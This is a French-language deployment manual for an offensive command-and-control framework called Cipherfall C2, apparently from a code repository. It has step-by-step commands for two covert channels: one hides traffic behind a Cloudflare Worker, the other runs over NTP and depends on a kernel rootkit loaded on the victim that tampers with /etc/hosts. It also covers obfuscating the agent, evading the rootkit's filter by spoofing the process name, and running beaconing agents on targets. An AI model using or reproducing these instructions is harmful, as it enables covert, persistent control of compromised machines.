


# Manuel de déploiement — Cipherfall C2

Deux canaux C2 indépendants. Même interface opérateur (`operator_cli.py`).

Pour l'utilisation post-déploiement, voir [Manuel d'exploitation](./MEX.md).

---

## Vue d'ensemble

<p align="center"></p>

| | Canal Cloudflare Worker | Canal NTP |
|---|---|---|
| Transport | HTTPS/443 vers Cloudflare | UDP/123 (fallback TCP/443) |
| Infrastructure | Cloudflare Workers + KV | VPS avec IP publique |
| Détection réseau | Très difficile (trafic HTTPS normal) | NTP légitime (paquets NTS Cookie) |
| Prérequis victime | Accès HTTPS outbound | `/etc/hosts` compromis + UDP/123 outbound |
| Persistance tâches | KV Cloudflare (TTL 1h) | Aucune (UDP fire-and-forget) |

---

## Canal 1 — Cloudflare Worker

### Architecture

<p align="center"></p>

### Étape 1 — Déployer le Worker Cloudflare

```bash
cd Modules/C2/cloudflare-worker

# 1. Installer wrangler
npm install -g wrangler
wrangler login

# 2. Créer le namespace KV
wrangler kv:namespace create "C2_KV"
# → copier l'id retourné dans wrangler.toml :
#   id = "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX"

# 3. Calculer le token partagé (même PSK que le serveur)
python3 -c "
import hashlib, hmac
PSK = 'mon_mot_de_passe_secret'
token = hmac.new(PSK.encode(), b'worker_token', hashlib.sha256).hexdigest()[:32]
print('WORKER_SECRET =', token)
"

# 4. Injecter le secret dans le Worker
wrangler secret put WORKER_SECRET
# → coller la valeur calculée ci-dessus

# 5. Déployer
wrangler deploy
# → noter l'URL : https://cipherfall-c2.XXXX.workers.dev
```

### Étape 2 — Démarrer le serveur C2

```bash
cd Modules/C2/cloudflare-worker
pip install -r requirements.txt

WORKER_URL=https://cipherfall-c2.XXXX.workers.dev \
C2_PSK=mon_mot_de_passe_secret \
python3 server.py

# Sortie attendue :
# [*] C2 server started
# [*] Admin API on http://127.0.0.1:1337
# [*] Polling Worker every 10s
```

> Le serveur n'expose aucun port public. Toute la communication passe par Cloudflare.

### Étape 3 — Préparer et déployer l'agent

```bash
# Récupérer l'ID de l'agent sur la cible
python3 nullrelay.py --id
# → ex: 3685e93ab6597954b51d83969dd4f1ad

# Générer un agent personnalisé via la TUI
cd Modules/C2
WORKER_URL=https://... C2_PSK=... python3 tui.py
# → onglet "Payload" → sélectionner "cloudflare" → remplir WORKER_URL et PSK → "Generate"
# → optionnel : cocher "Obfuscate" pour passer par shadowscript.py

# OU manuellement : éditer les variables en tête de nullrelay.py puis obfusquer
python3 ../../Obfuscator/shadowscript.py nullrelay.py
# → déployer le fichier obfusqué sur la cible
```

---

## Canal 2 — NTP C2

### Architecture

<p align="center"></p>

### Prérequis

- **VPS** avec IP publique, accès root, UDP/123 et TCP/443 ouverts
- **Rootkit chargé sur la cible** : le rootkit injecte les entrées NTP dans `/etc/hosts`
  et les cache de tout processus sauf l'agent C2 (comm `ntp-agent`)

```
# Vérifier que le rootkit a injecté les entrées (bypass read hook via mmap)
python3 -c "
import mmap
f = open('/etc/hosts', 'rb')
m = mmap.mmap(f.fileno(), 0, prot=mmap.PROT_READ)
print(m[:].decode())
" | grep 87.106
```

### Étape 1 — Démarrer le serveur NTP C2

```bash
# Sur le VPS (nécessite root pour bind UDP/123 et TCP/443)
cd /opt/cipherfall/ntp_c2
pip install -r requirements.txt

C2_PSK=mon_mot_de_passe_secret python3 server.py

# Sortie attendue :
# [*] NTP C2 listening on UDP/123 + TCP/443
# [*] Admin API on http://127.0.0.1:1338

# En arrière-plan :
C2_PSK=... nohup python3 server.py > /var/log/ntp_c2.log 2>&1 &

# Debug (affiche chaque beacon/dispatch) :
C2_PSK=... C2_DEBUG=1 python3 server.py
```

> Port admin par défaut : **1338** (différent du canal Cloudflare : 1337)

### Étape 2 — Déployer l'agent sur la cible

```bash
# Sur la CIBLE — s'assurer que le rootkit est chargé
cd /tmp/rb && insmod ironveil.ko

# Vérifier que le domaine NTP résoud bien vers le VPS
# (en se nommant ntp-agent pour bypasser le filtre du rootkit)
python3 -c "
import socket, ctypes
ctypes.CDLL('libc.so.6').prctl(15, b'ntp-agent', 0, 0, 0)
print(socket.gethostbyname('0.debian.pool.ntp.org'))
"
# doit afficher l'IP du VPS

# Récupérer l'ID agent
python3 /tmp/clockvenom.py --id

# Lancer l'agent (beacon toutes les ~60s ± 30s)
C2_PSK=mon_mot_de_passe_secret python3 /tmp/clockvenom.py

# Intervalle court pour les tests
C2_PSK=... C2_INT=15 C2_JITTER=5 nohup python3 /tmp/clockvenom.py > /tmp/clockvenom.log 2>&1 &
```

---

## Checklist de déploiement rapide

### Canal Cloudflare Worker

```
[ ] wrangler deploy (worker.js + secret WORKER_SECRET)
[ ] WORKER_URL noté
[ ] pip install -r cloudflare-worker/requirements.txt
[ ] WORKER_URL=... C2_PSK=... python3 cloudflare-worker/server.py
[ ] Agent baked avec TUI ou manuellement, obfusqué, déployé sur cible
[ ] python3 operator_cli.py agents  → agent visible
```

### Canal NTP

```
[ ] Rootkit chargé sur la cible (insmod ironveil.ko)
[ ] Vérifier injection /etc/hosts via mmap
[ ] VPS : UDP/123 + TCP/443 ouverts dans firewall
[ ] C2_PSK=... python3 ntp/server.py  (sur VPS, root)
[ ] C2_PSK=... C2_INT=15 python3 /tmp/clockvenom.py  (sur cible)
[ ] C2_ADMIN_PORTS=1338 python3 operator_cli.py agents  → agent visible
```


> Pour le dépannage et l'utilisation de l'interface opérateur, voir [Manuel d'exploitation](./MEX.md).
